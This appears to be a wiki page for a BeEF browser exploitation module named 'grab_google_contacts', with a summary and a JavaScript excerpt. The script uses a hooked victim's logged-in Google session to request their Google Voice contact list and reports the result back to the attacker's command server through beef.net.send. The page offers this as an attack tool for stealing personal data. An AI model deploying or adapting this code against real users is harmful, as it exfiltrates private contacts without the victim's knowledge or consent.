 ## Summary

* **Objective**: get google contacts
* **Authors**: Kos, antisnatchor
* **Browsers**: Chrome

* [Code](https://github.com/beefproject/beef/tree/master/modules/chrome_extensions/grab_google_contacts)

## Internal Working

sends XHR requests to a google voice url. If the user is logged in, the list of contacts can be obtained

### Note
This can run on normal javascript, does not need extension/plugin privileges.

```js

function grabContacts(){
        var client = new XMLHttpRequest();
        client.open("GET", "https://www.google.com/voice/c/b/X/ui/ContactManager" ,false);
        client.setRequestHeader("Content-Charset", "ISO-8859-1,utf-8;q=0.7,*;q=0.3");
        client.send();
        if(client.status != 200){ // if the victim is not authenticated in Google, a 403 Forbidden error is received.
            beef.net.send('<%= @command_url %>', <%= @command_id %>, 'The victim is not logged in Google.');
        }else{ //proceed
            toolContact(client.responseText);
        }
}

```

## Feedback

